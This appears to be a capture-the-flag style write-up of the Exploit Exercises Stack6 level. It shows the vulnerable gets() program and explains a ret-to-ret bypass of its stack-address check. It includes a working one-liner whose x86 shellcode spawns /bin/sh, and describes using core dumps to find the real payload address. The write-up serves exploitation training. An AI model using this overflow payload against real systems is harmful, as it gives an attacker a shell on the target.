









# Exploit Exercises Stack6
## code
```
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void getpath()
{
    char buffer[64];
    unsigned int ret;

    printf("input path please: "); fflush(stdout);

    gets(buffer);

    ret = __builtin_return_address(0);

    if((ret & 0xbf000000) == 0xbf000000) {
        printf("bzzzt (%p)\n", ret);
        _exit(1);
    }

    printf("got path %s\n", buffer);
}

int main(int argc, char **argv)
{
    get path();
}

```
## Principle

At this task ,program adds a check that does **not allow the return address to be a stack address (ret& 0xbf000000).** So we can not just overflow the return address to be our shellcode (which locates at stack). It's quite easy to solve the problem! We allocate memory at stack as follow:



Return instructions address(main's ret addr also works):


As ret instruction addr(0x080484f9) can bypass the return check, we now ret to "ret instruction" and program will pop esp, leading the payload address to be in the [esp]. Executing ret instruction again, program runs payload!

exploit code:
```
python -c 'print "A"*0x50+"\xf9\x84\x04\x08"+"\xf4\xf7\xff\xbf"+"\x31\xc0\x31\xdb\xb0\x06\xcd\x80\x53\x68/tty\x68/dev\x89\xe3\x31\xc9\x66\xb9\x12\x27\xb0\x05\xcd\x80\x31\xc0\x50\x68//sh\x68/bin\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80" ' > /tmp/stack6_exploit.txt
```

It did work in gdb:



However, when I try to execute exploit script out of gdb, it crashs:



It is not surprising, as we wrote the payload address as **hardcode**. Stack address changes in different situations, so all we need to do is to find out the real address of payload when program executes without gdb.

I found a way to determine the stack address of payload: **use core dump**.
But it need a "root" permission:



We generate the core_dump file! Use **cat /proc/sys/kernel/core_pattern**  to get the filepath of core_dump.

Using core_dump helps us determine the address of payload:



esp changes to **0xbffff800**, so payload address should be **0xbffff804**:



Hack!

## Summary

Actually I found that codes under the ret instruction of main is:


nops,push,mov,pop do not influence the stack content, so we can use **0x08048508~0x08048510** and **0x08048514** as our "ret instruction address".(Executing pop without push is not allowed!)


